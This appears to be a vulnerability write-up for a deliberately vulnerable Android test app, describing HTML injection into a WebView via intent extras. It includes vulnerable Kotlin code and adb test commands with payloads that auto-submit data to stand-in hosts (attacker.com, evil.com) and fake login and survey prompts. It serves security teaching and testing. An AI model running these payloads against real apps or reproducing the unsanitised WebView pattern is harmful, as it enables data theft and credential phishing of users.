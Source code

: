 # oxo-android-ben45: HTML Injection Through Intent Parameter

## Vulnerability Overview

HTML Injection Through Intent Parameter occurs when an Android app's WebView component displays content received from intent parameters without proper sanitization. This vulnerability allows attackers to inject malicious HTML, CSS, and JavaScript code through intent extras, leading to Cross-Site Scripting (XSS) attacks within the WebView context.

## Attack Vector: Form-based Data Exfiltration

**Brief Explanation**: Injection of HTML forms that automatically submit sensitive data to attacker-controlled servers, or prompt users for additional sensitive information.

**Key Characteristics:**
- Creates hidden or visible forms for data collection
- Can auto-submit forms using JavaScript
- Exfiltrates data to external servers
- Can prompt for additional user credentials

**Vulnerable Code Pattern:**
```kotlin
val articleHtml = intent.getStringExtra("article_html") ?: "<p>No content</p>"
val fullHtml = """
    <html><body>
    <h1>News Reader</h1>
    $articleHtml
    </body></html>
""".trimIndent()
webView.loadDataWithBaseURL("https://newsreader.app", fullHtml, "text/html", "utf-8", null)  // VULNERABLE!
```

## Testing

```bash
# Auto-submitting data exfiltration form
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e article_html "<form id='steal' action='https://attacker.com/collect' method='POST'><input type='hidden' name='data' value='Stolen App Data'></form><script>document.getElementById('steal').submit()</script><p>Article content loading...</p>"

# Credential harvesting form
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e article_html "<div style='border:1px solid #ccc; padding:20px; background:#f9f9f9'><h3>Session Expired</h3><p>Please re-enter your credentials:</p><form><input type='text' placeholder='Username' onchange='alert(\"Stolen: \" + this.value)'><input type='password' placeholder='Password' onchange='alert(\"Password: \" + this.value)'><button type='button'>Login</button></form></div>"

# Fake survey form for data collection
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e article_html "<form><h3>Quick Survey - Win $100!</h3><p>Name: <input type='text' onblur='alert(\"Name: \" + this.value)'></p><p>Phone: <input type='tel' onblur='alert(\"Phone: \" + this.value)'></p><p>Email: <input type='email' onblur='alert(\"Email: \" + this.value)'></p><button type='button'>Submit</button></form>"

# Hidden iframe for background data theft
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e article_html "<p>Reading your article...</p><iframe src='javascript:alert(\"Background data theft executed!\")' style='display:none'></iframe>"

# Contact form with automatic submission
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e article_html "<form action='https://evil.com/steal' method='POST' id='contact'><h3>Contact Us</h3><input name='message' value='User visited vulnerable app' type='hidden'><textarea placeholder='Your message...' name='user_input'></textarea><br><button type='submit'>Send</button></form><script>setTimeout(function(){document.getElementById('contact').submit()}, 3000)</script>"
```

**Difficulty**: Easy

## Impact Assessment

- **Confidentiality**: Critical - Direct exfiltration of sensitive data to external servers
- **Integrity**: High - Can collect and manipulate user-provided information
- **Availability**: Medium - Can redirect users to malicious external sites
- **OWASP Mobile Top 10**: M7 - Client Code Quality, M2 - Insecure Data Storage
- **CWE**: CWE-79 (Cross-site Scripting), CWE-20 (Improper Input Validation), CWE-352 (Cross-Site Request Forgery)
